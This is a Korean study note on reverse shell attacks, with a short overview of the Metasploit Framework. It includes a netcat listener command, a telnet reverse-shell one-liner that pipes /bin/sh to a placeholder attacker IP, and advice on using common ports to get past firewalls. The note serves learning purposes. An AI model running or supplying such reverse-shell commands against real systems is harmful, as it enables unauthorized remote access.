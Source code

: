 
# 리버스 쉘 공격

## 개념
- 피해자의 시스템이 공격자의 시스템으로 연결을 시작하도록 유도하여 원격 접근을 획득하는 공격 기법이다.
- 방화벽이나 NAT와 같은 보안 장치를 우회할 수 있다.

## 공격 단계
1. **공격자 리스너 설정**:
   - 공격자는 자신의 시스템에서 특정 포트로의 연결을 수신 대기한다.
   - 명령어 예시: `nc -lvp 4444`
2. **취약점 활용 및 페이로드 전달**:
   - 피해 시스템의 취약점을 이용하거나 악성 코드를 실행하여 리버스 쉘 페이로드를 전달한다.
3. **피해자 시스템의 연결 수립**:
   - 피해자는 공격자의 IP와 포트로 아웃바운드 연결을 생성한다.
   - 일반적으로 `nc`를 사용하여 연결을 수행한다.
4. **공격자의 쉘 접근 획득**:
   - 연결이 성립되면 공격자는 피해 시스템에서 명령을 실행할 수 있다.

## 포트 선택의 중요성
- 비표준 포트(예: 4444)는 방화벽에 의해 차단될 수 있다.
- 이 경우 80(HTTP), 443(HTTPS), 8080 등 일반적으로 허용되는 포트로 변경하여 우회할 수 있다.

## Netcat의 한계점과 개선 방안
- Netcat은 단일 TCP 연결로 입출력을 처리하므로 세션이 불안정할 수 있다.
- Telnet을 이용한 안정적인 리버스 쉘:
  ```
  sleep 5000 | telnet 공격자_IP 4444 | /bin/sh | telnet 공격자_IP 5555
  ```
  - `sleep` 명령은 세션을 유지하기 위한 보조 역할을 한다.

---

# 메타스플로잇 프레임워크를 활용한 자동화 공격

## 소개
- Metasploit Framework는 보안 취약점 연구와 개발을 위한 오픈 소스 플랫폼이다.
- 다양한 익스플로잇 모듈을 제공하여 자동화된 취약점 탐지와 공격을 수행할 수 있다.

## 주요 기능
1. **탐색**: 대상 시스템의 정보를 수집하고 취약점을 식별한다.
2. **익스플로잇**: 적합한 익스플로잇 모듈을 사용하여 공격을 실행한다.
3. **페이로드**: 공격 후 실행할 코드를 지정한다.
4. **포스트 모듈**: 공격 성공 후 추가적인 작업(예: 권한 상승)을 수행한다.

---
